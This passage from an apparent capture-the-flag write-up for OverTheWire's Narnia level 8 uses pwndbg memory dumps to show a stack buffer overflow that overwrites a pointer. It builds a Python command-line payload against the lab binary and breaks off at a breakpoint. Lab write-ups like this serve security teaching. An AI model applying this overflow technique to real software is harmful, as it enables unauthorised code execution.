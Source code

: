 {% highlight bash %}
pwndbg> x/40x $esp  
0xffffd044\:     0x41414141      0x00000041      0x00000000      0x00000000  
0xffffd054\:     0x00000000      0xffffd2f9      0xffffd068      0x080484a7  
0xffffd064\:     0xffffd2f9      0x00000000      0xf7ddfe46      0x00000002  
0xffffd074\:     0xffffd114      0xffffd120      0xffffd0a4      0xffffd0b4
{% endhighlight %}

Note how there are 5 A’s starting at 0xffffd044 followed by 15 0 bytes. The 0’s are a result of the memset function. These 0’s are then followed by the 0xffffd2f9 address. Examining this address reveals that it is pointing to the local_8 buffer\:

{% highlight bash %}
pwndbg> x/s 0xffffd2f9  
0xffffd2f9\:     "AAAAA"
{% endhighlight %}

Interestingly, running the program again but inputting 6 A’s instead of 5 results in a decrement of 1 to the local_8 address\:

{% highlight bash %}
pwndbg> x/40x $esp  
0xffffd044\:     0x41414141      0x00004141      0x00000000      0x00000000  
0xffffd054\:     0x00000000      0xffffd2f8      0xffffd068      0x080484a7  
0xffffd064\:     0xffffd2f8      0x00000000      0xf7ddfe46      0x00000002
{% endhighlight %}

Furthermore, when inputting more than 20 bytes, the address of local_8 gets overwritten by one byte\:

{% highlight bash %}
0xffffd034\:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd044\:     0x41414141      0xffffd241      0xffffd058      0x080484a7
{% endhighlight %}

However, when exactly 20 bytes are inputted followed by the address of local_8 and some junk, we are able to flood into other areas of memory\:

Payload\:

A*20 + ADDRESS_TO_LOCAL_8 + ‘A’*6

When we passed 6 A’s into the buffer, the address to local_8 was 0xfffd2f8. If we are to input 14 more A’s followed by the address to local_8 (which is four bytes) followed by another 6 A’s, then the resulting address to local_8 would be 0xffffd2f8 - (14+4+6).

{% highlight bash %}
\>>\> hex(0xffffd2f8-24)  
'0xffffd2e0'
{% endhighlight %}

Using this address, we can construct the payload as follows\:

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*20+'\\xe0\\xd2\\xff\\xff'+'A'*6")  
Starting program\: /home/0xd4y/business/other/overthewire/narnia/8/narnia8 $(python -c "print 'A'*20+'\\xe0\\xd2\\xff\\xff'+'A'*6")  
AAAAAAAAAAAAAAAAAAAAAAAAAA  
                                           
Breakpoint 1, 0x0804848d in func ()                                          
{% endhighlight %}
